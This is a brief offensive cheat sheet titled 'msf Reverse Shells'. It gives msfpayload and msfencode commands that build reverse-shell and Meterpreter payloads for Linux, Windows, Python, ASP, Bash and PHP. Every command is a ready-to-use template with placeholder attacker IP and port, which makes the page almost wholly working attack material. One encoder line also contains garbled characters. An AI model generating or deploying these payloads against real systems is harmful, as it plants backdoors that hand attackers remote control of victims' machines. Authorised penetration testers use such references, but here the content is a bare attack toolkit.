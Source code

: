 # msf Reverse Shells

Create a Linux Reverse Meterpreter Binary

```
msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell
```

Create Reverse Shell (Shellcode)

```
msfpayload windows/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -b ā\x00\x0a\x0dā
```

Create a Reverse Shell Python Script

```
msfpayload cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > shell.py
```

Create a Reverse ASP Shell

```
msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t asp -o shell.asp
```

Create a Reverse Bash Shell

```
msfpayload cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > shell.sh
```

Create a Reverse PHP Shell

```
msfpayload php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > shell.php
```

Edit shell.php in a text editor to add <?php at the beginning.
Create a Windows Reverse Meterpreter Binary

```
msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X >shell.exe

```




